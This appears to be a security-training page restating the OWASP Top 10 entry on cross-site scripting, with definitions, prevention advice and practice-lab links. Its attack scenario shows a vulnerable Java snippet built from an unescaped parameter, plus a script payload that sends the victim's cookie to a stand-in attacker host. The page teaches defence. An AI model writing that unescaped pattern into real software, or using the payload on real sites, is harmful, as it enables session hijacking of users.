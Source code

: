 ```yaml
---
name: A7 Cross-site scripting (XSS)
menu: OWASP Top 10
route: /owasp/a7_cross-site_scripting_xss
---
```


# A7 Cross-site scripting (XSS)

## Definition

XSS flaws occur whenever an application includes untrusted data in a new web page without
proper validation or escaping, or updates an existing web page with user-supplied data using a
browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the
victim’s browser which can hijack user sessions, deface web sites, or redirect the user to
malicious sites.

## Risk Factor Summary

- Score: 6.0
- Attack Vectors Exploitability: 3
- Security Weakness Prevalence: 3
- Security Weakness Detectability: 3
- Impact Technical: 2

## Context

<iframe width="100%" height="450"
src="https://www.youtube.com/embed/IuzU4y-UjLw">
</iframe>

Automated tools can detect and
exploit all three forms of XSS, and
there are freely available exploitation
frameworks.


XSS is the second most prevalent issue in the
OWASP Top 10, and is found in around two-thirds of
all applications.


Automated tools can find some XSS problems
automatically, particularly in mature technologies
such as PHP, J2EE / JSP, and ASP.NET.


The impact of XSS is moderate for
reflected and DOM XSS, and severe
for stored XSS, with remote code
execution on the victim's browser,
such as stealing credentials,
sessions, or delivering malware to the
victim.

## Is the Application Vulnerable?

There are three forms of XSS, usually targeting users' browsers:

- **Reflected XSS:** The application or API includes unvalidated and
unescaped user input as part of HTML output. A successful
attack can allow the attacker to execute arbitrary HTML and
JavaScript in the victim’s browser. Typically the user will need to
interact with some malicious link that points to an attackercontrolled page, such as malicious watering hole websites,
advertisements, or similar.

- **Stored XSS:** The application or API stores unsanitized user
input that is viewed at a later time by another user or an
administrator. Stored XSS is often considered a high or critical
risk.

- **DOM XSS:** JavaScript frameworks, single-page applications, and
APIs that dynamically include attacker-controllable data to a
page are vulnerable to DOM XSS. Ideally, the application would
not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover,
MFA bypass, DOM node replacement or defacement (such as
trojan login panels), attacks against the user's browser such as
malicious software downloads, key logging, and other client-side
attacks.

## How to Prevent

Preventing XSS requires separation of untrusted data from
active browser content. This can be achieved by:
- Using frameworks that automatically escape XSS by design,
such as the latest Ruby on Rails, React JS. Learn the
limitations of each framework's XSS protection and
appropriately handle the use cases which are not covered.
- Escaping untrusted HTTP request data based on the context in
the HTML output (body, attribute, JavaScript, CSS, or URL) will
resolve Reflected and Stored XSS vulnerabilities. The OWASP
[Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data
escaping techniques.
- Applying context-sensitive encoding when modifying the
browser document on the client side acts against DOM XSS.
When this cannot be avoided, similar context sensitive
escaping techniques can be applied to browser APIs as
described in the [OWASP Cheat Sheet 'DOM based XSS
Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
- Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is a defense-in-depth
mitigating control against XSS. It is effective if no other
vulnerabilities exist that would allow placing malicious code via
local file includes (e.g. path traversal overwrites or vulnerable
libraries from permitted content delivery networks).

## Example Attack Scenarios

### Scenario #1: 
The application uses untrusted data in the
construction of the following HTML snippet without validation or
escaping:
```
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the ‘CC’ parameter in the browser to:
```
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'
```

This attack causes the victim’s session ID to be sent to the
attacker’s website, allowing the attacker to hijack the user’s
current session.

Note: Attackers can use XSS to defeat any automated CrossSite Request Forgery (CSRF) defense the application might
employ.

## Hacking Playground

- [🐐 NodeGoat | A7 Cross-site scripting (XSS)](https://nodegoat.herokuapp.com/tutorial/a7)
- [🧃 Pwning OWASP Juice Shop | A7 Cross-site scripting (XSS)](https://pwning.owasp-juice.shop/part2/xss.html)

## References

### OWASP

- [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community//xss-filter-evasion-cheatsheet)

### CWEs

- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)